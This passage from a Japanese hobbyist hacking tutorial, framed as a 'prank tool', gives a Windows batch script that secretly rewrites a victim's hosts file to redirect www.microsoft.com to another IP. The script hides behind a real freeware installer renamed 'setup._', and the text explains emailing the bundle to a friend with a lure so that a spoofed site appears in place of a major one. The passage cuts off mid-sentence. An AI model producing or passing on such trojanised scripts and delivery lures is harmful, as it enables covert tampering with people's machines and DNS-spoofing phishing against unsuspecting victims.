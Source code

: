 
### 0x03 悪戯ツールを作ってみよう

　やけに長い説明終わり！
　ではこれで、どんな悪戯ができるか考えてみましょう。
　一番面白いのは自前でサーバーを立ち上げることですね。フリーウェアも出て
いますので、ブロードバンド環境であれば案外簡単です。IPアドレスを自分のPC
のアドレスにしておいて、友達に「Yahooのサイトをハックしたゼ！」と驚かして
みたり、新聞のサイトをコピーして「こないだ新聞に載ったよ！」とだましてみ
たり……。ハロウィンのTrickにもってこい（？）な演出ができます。
　残念ながらレンタルサーバーのWEBスペースには飛ばせませんが、知人のサイト
を別のサイトに飛ばし、「君のサイトおかしなことになってるよ！」と驚かすこ
とはできるかもしれません。

　…と、いろんなネタが考えられるわけですが、自分のPCで見せるならともかく、
相手が遠くにいる場合、hostsファイルを直接いじるわけにもいかないでしょう。
そこで、hostsファイルを書き換えるツールを作ってみます。といっても、実行フ
ァイルを作るのは面倒なので、簡単にテキストエディタでバッチファイルを作成
します。
　バッチファイルをクリックさせるために、面白いフリーウェアかなにか用意し
ておきましょう。このソフトのインストーラの拡張子を、次のように書き換えて
おきます。

setup.exe→setup._

　それから、次の命令をテキストエディタに張りつけて、install.batなどの名前
で保存します。

```
if exist %windir%\system32\drivers\etc\hosts.bkup goto end
 ren %windir%\system32\drivers\etc\hosts hosts.bkup
 echo 210.171.226.47 www.microsoft.com>> %windir%\system32\drivers\etc\hosts
:end
setup._
```

```
if exist %windir%\hosts.bkup goto end
 ren %windir%\hosts hosts.bkup
 echo 210.171.226.47 www.microsoft.com>> %windir%\hosts
:end
setup._
```

　このバッチファイルの中身を簡単に説明すると、以下のようになっています。

1行目：既にバックアップファイルがあれば、処理を実行しない。
2行目：今あるhostsファイルをhosts.bkupにリネームする。
3行目：hostsファイルに設定を書き込む（好きな組み合わせに変えてください）。
4行目：ラベル。
5行目：本物のsetupファイルを実行する。

　実行ファイルは拡張子が違っても実行されてしまう……というのがミソです。
　これをソフトと一緒に圧縮して、メールに添付。本文には、「面白いフリーウ
ェア見つけたよ。install.batをクリックしてね」などと書いておけばよろしい。
友人がソフトをインストールしたのを確認後、メールで、「このサイト見てみて
！」と大手サイトのURLを張りつけて送れば、びっくりすること間違いなしです。
誘導したいサイトのIPアドレスが、自分のサイトでない場合は、コマンドプロン
プトの画面から以下のようにPINGを打って調べてもいいし、
